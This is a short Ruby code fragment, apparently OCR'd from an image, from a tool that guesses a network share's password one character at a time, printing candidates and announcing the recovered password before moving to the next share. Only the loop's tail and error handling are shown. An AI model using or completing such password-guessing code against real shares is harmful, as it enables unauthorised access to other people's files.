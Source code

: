           else
            password[length0-1] = password[length0-1] + 1

            password.each { |val|
              print val.chr()

            }
            print "\r"

            sleep(delay)

            if (password[length0-1] > 128)  then
              password.each { |val|
                if (val < 128) then
                  print val.chr()
                end
              }

              #TODO check for 0 length password
              if length0 > 1
                puts "\n"+'<- No more char to try, this should be your password, yikes :) '+"\n\n"
              else
                puts "Password not found :("+"\n\n"
              end

              next_share=TRUE
            end
          end

        rescue IOError, SocketError, SystemCallError => e
          puts e.message
          puts e.backtrace.inspect
          exit(-1)
        end

        if (next_share)   #moving on to the next share
          break
        end
      end

    }

    sock_close(socket)